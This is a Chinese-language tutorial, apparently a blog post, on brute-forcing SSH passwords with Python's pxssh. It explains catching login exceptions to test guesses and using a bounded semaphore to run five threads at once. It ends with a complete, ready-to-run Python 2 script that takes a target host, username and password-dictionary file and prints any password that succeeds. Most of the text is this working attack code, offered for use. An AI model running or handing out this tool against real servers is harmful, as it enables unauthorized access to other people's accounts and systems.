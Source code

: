 # 利用pxssh暴力破解ssh密码
> ==关于pxssh==
> pxssh 是一个包含了pexpect库的专用脚本,它已经预先为我们写好了login(),logout()和prompt()等函数直接与SSH交互。

####利用pxssh的login函数判断密码是否正确
由于pxssh.login()函数执行失败会抛出异常，因此我们可以利用try...catch来捕获相应的异常来判断密码是否正确。（PS:其中的connection_lock.release()是信号量得释放操作）

```Python
def connect(host,user,password):
    try:
        session = pxssh.pxssh()
        session.login(host,user,password)
        print('[+]Password Found:'+password)
    except Exception,e:
        print ('[-] Error Connecting:'+str(e))
    finally:
        connection_lock.release()
```

####多线程和信号量
由于我们准备从一个庞大的字典文件的读取密码，我们决定利用多线程来同时处理多个密码登陆操作用来加快速度。

```Python
password_file = open(password,'r')
for line in password_file:
        thread = threading.Thread(target=connect,args=(host,user,password))
        thread.start()
```
可是像上面的代码,如果password_file是个巨大的密码文件，就为同时产生过多的线程，很容易造成服务器无法响应，为了控制同时存在的线程数量，我们这里采用threading中的BoundedSemaphore来控制最大连接数，也就是最多的允许线程数量,讲上面的代码改成如下这样:

```Python
maxConnections = 5
connection_lock = threading.BoundedSemaphore(maxConnections)
password_file = open(password,'r')
for line in password_file:
   password = line.strip('\r').strip('\n')
   connection_lock.acquire()
   print('[-] Testing password:'+str(password))
   thread = threading.Thread(target=connect,args=(host,user,password))
   thread.start()
```
最大连接数被设置为5，在每个thread启动时注册一个信号量，在connect函数结束时注销这个信号量，这样同时存在的线程数量就被控制为5个。

####测试结果
![2016-06-29_14667836697742.jpg](http://pic.mylonly.com/2016-06-29_14667836697742.jpg)
字典文件可以自己生成，或者网上找一些常用字典文件
####完整代码
```Python
from pexpect import pxssh
import threading
import optparse
import time

maxConnections = 5
connection_lock = threading.BoundedSemaphore(maxConnections)

def send_command(child,cmd):
    child.sendline(cmd)
    child.prompt()
    print(child.before)

def connect(host,user,password):
    try:
        session = pxssh.pxssh()
        session.login(host,user,password)
        print('[+]Password Found:'+password)
    except Exception,e:
        print ('[-] Error Connecting:'+str(e))
    finally:
        connection_lock.release()

def main():
    
    parse = optparse.OptionParser('Usage %prog '+ \
        '-H <target host> -u <user> -F <password file>')
    parse.add_option('-H',dest='host',type='string',help='specify target host')
    parse.add_option('-u',dest='user',type='string',help='specify username')
    parse.add_option('-F',dest='password',type='string',help='specify password file')
    (options,args) = parse.parse_args()

    host = options.host
    user = options.user
    password = options.password

    password_file = open(password,'r')

    for line in password_file:
        password = line.strip('\r').strip('\n')
        connection_lock.acquire()
        print('[-] Testing password:'+str(password))
        thread = threading.Thread(target=connect,args=(host,user,password))
        thread.start()

if __name__ == '__main__':
    main()

```

